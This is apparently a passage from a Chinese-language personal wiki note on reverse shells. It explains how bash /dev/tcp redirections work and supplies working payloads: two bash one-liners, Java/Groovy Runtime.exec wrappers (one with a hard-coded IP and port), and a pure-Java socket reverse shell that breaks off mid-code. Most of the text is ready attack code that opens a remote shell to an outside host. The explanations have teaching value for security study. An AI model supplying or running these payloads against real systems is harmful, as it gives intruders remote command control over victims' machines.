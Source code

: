 ## 不同的重定向

```sh
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5
```
同理，我们按照上述的分析方法对这个反弹shell进行分析。

- `5<>/dev/tcp/host/port`，以读写的方式打开`/dev/tcp/host/port`,并将文件描述符5重定向到`/dev/tcp/host/port`
- `0>&5`，将文件描述符0(标准输入)重定向至文件描述符5
- `1>&5`，将文件描述符1(标准输出)重定向至文件描述符5
![Pasted image 20240701153018.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020240701153018.png)
最终的效果就是文件描述符0(标准输入)和文件描述1(标准输出)全部都重定向到`/dev/tcp/host/port`，从而就完成了反弹shell。
对应的Java代码:
```java
r = Runtime.getRuntime()  
p = r.exec(["/bin/bash","-c","bash -i 5<>/dev/tcp/host/port 0>&5 1>&5"] as String[])  
p.waitFor()
```

还有一种
```sh
exec 5<>/dev/tcp/ip/port;cat <&5 \| while read line; do $line >&5; done
```

![Pasted image 20240701153230.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020240701153230.png)
1. `exec 5<>/dev/tcp/ip/port`,以读写的方式打开`/dev/tcp/ip/port`,并将文件描述符5重定向到`/dev/tcp/ip/port`
2. `cat <&5`,将文件描述符5的重定向到`cat`中，即cat读取到`&5`的内容。结合1就是cat会读取`/dev/tcp/ip/port`中shell的输入内容。
3. `|`，管道符。将cat读取的结果作为后面的输入；
4. `while read line; do $line >&5; done`，拆开看。`while do done`是shell中`while`的规定语法。其中`read line;`表示的就是会循环读取`cat <&5`的内容，赋值到`line`变量中，之后`$line`会执行`line`语句中的命令，最后`>&5`，表示将当前bash的输出和错误重定向至文件描述符5中，即`/dev/tcp/ip/port`。

对应的Java代码:
```java
r = Runtime.getRuntime()  
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.31.41/8080;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])  
p.waitFor()
```
## 没有bash的解决方案
上面说的反弹shell的方式其实还是利用常见的`bash`反弹shell的原理。既然在java中也存在`socket`,那么我们就可以直接利用Java中的socket建立连接进行反弹shell。如下：  
```java
String host=host;  
int port=port;  
String cmd="/bin/sh";  
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();  
Socket s=new Socket(host,port);  
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();  
OutputStream po=p.getOutputStream(),so=s.getOutputStream();  
while(!s.isClosed()) {  
    while(pi.available()>0) {  
        so.write(pi.read());  
    }  
    while(pe.available()>0) {  
        so.write(pe.read());  
    }  
    while(si.available()>0) {  
        po.write(si.read());  
    }  
    so.flush();  
    po.flush();  
    Thread.sleep(50);  
    try {  
```